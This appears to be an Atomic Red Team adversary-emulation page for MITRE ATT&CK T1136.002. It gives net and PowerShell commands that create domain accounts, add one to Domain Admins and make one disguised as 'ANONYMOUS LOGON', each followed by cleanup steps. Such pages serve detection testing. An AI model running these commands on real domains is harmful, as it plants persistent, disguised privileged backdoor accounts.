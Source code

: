 # T1136.002 - Domain Account
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1136/002)
<blockquote>Adversaries may create a domain account to maintain access to victim systems. Domain accounts are those managed by Active Directory Domain Services where access and permissions are configured across systems and services that are part of that domain. Domain accounts can cover user, administrator, and service accounts. With a sufficient level of access, the <code>net user /add /domain</code> command can be used to create a domain account.

Such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a new Windows domain admin user](#atomic-test-1---create-a-new-windows-domain-admin-user)

- [Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON](#atomic-test-2---create-a-new-account-similar-to-anonymous-logon)

- [Atomic Test #3 - Create a new Domain Account using PowerShell](#atomic-test-3---create-a-new-domain-account-using-powershell)


<br/>

## Atomic Test #1 - Create a new Windows domain admin user
Creates a new domain admin user in a command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** fcec2963-9951-4173-9bfa-98d8b7834e62





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136.002_Admin|
| password | Password of the user to create | String | T1136_pass123!|
| group | Domain administrator group to which add the user to | String | Domain Admins|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
net group "#{group}" "#{username}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON
Create a new account similar to ANONYMOUS LOGON in a command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** dc7726d2-8ccb-4cc6-af22-0d5afb53a548





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Username of the user to create | String | ANONYMOUS  LOGON|
| password | Password of the user to create | String | T1136_pass123!|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #3 - Create a new Domain Account using PowerShell
Creates a new Domain User using the credentials of the Current User

**Supported Platforms:** Windows


**auto_generated_guid:** 5a3497a4-1568-4663-b12a-d4a5ed70c7d7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Name of the Account to be created | String | T1136.002_Admin|
| password | Password of the Account to be created | String | T1136_pass123!|


#### Attack Commands: Run with `powershell`! 


```powershell
$SamAccountName = '#{username}'
$AccountPassword = ConvertTo-SecureString '#{password}' -AsPlainText -Force
Add-Type -AssemblyName System.DirectoryServices.AccountManagement
$Context = New-Object -TypeName System.DirectoryServices.AccountManagement.PrincipalContext -ArgumentList ([System.DirectoryServices.AccountManagement.ContextType]::Domain)
$User = New-Object -TypeName System.DirectoryServices.AccountManagement.UserPrincipal -ArgumentList ($Context)
$User.SamAccountName = $SamAccountName
$TempCred = New-Object System.Management.Automation.PSCredential('a', $AccountPassword)
$User.SetPassword($TempCred.GetNetworkCredential().Password)
$User.Enabled = $True
$User.PasswordNotRequired = $False
$User.DisplayName = $SamAccountName
$User.Save()
$User
```

#### Cleanup Commands:
```powershell
cmd /c "net user #{username} /del >nul 2>&1"
```





<br/>
